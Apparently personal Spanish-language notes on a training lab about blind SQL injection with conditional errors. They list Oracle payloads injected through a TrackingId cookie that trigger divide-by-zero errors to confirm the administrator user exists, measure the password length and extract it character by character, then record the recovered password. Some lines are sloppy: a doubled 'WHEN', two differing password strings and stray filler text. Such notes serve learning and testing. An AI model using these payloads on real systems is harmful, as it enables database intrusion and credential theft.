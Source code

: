 # 12 Lab: Blind SQL injection with conditional errors

```jsx
';
''; //Verificamos que reacciona solo con un ' (error de sintaxis)
/// EXISTE TABLA USERS Y fila administrator
'||(SELECT '' FROM dual)||'
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
// De esta manera forzaremos un error con una query real
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

/// Obtener longitud de la clave, obtenemos que tiene 20 caracteres
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
/// Obtener CADA CARACTER
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
// Probamos con Intruder
'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§A§' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
son 20 caracteres, estos pueden ser minuscular y caracteres alfanumericos

administrator
zc83du733ks81egn2kii
```

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%201.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%202.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%203.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%204.png)

Esto demuestra que puede desencadenar un error condicionalmente a la veracidad de una condición específica. La declaración CASE prueba una condición y la evalúa como una expresión si la condición es verdadera y otra expresión si la condición es falsa. La primera expresión contiene una división por cero, lo que provoca un error. En este caso, las dos cargas útiles prueban las condiciones 1=1 y 1=2, y se recibe un error cuando la condición es verdadera.

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%205.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%206.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%207.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%208.png)

Recordemos que nos mostrará el error de Internal Server Error, solo cuando haya un error en la query.

Por eso usaremos un condicional anidado :

```jsx
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
// Query
SELECT 
    CASE 
        WHEN (1=1) THEN TO_CHAR(1/0) 
        ELSE '' 
    END 
FROM users WHERE username='administrator';
```

WHEN (1=1) THEN TO_CHAR(1/0)  <Es un error, puesto que 1/0 será un error en SQL>

POR ESO MOSTRARÁ EN MENSAJE DE ERROR, SI EXISTE LA OTRA CONDICIONAL: ***FROM users WHERE username='administrator'***

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%209.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%2010.png)

```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

SELECT 
	CASE 
		WHEN LENGTH(password)>1 THEN to_char(1/0) 
		ELSE '' 
	END 
FROM users WHERE username='administrator'

SELECT 
	CASE 
		WHEN <CONDICIÓN A CONSULTAR> THEN <ARTIFICIO QUE SIEMPRE DARA ERROR> 
		ELSE '' 
	END 
FROM users WHERE username='administrator'

SI LA CONDICIÓN A CONSULTAR, CUMPLE, ENTONCES NOS BOTARÁ UN ERROR, PUESTO QUE ES UNA CONSULTA A CIEGAS
```

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%2011.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%2012.png)

SUBSTR(password,1,1)='a’

```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

SELECT 
	CASE 
		WHEN WHEN SUBSTR(password,$1$,1)='$a$' THEN to_char(1/0) 
		ELSE '' 
	END 
FROM users WHERE username='administrator'

```

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2012cfab5460ec801ab084d177f08b5476/Untitled%2013.png)

zc83du733ks813egn2kii

fgdfgdfgd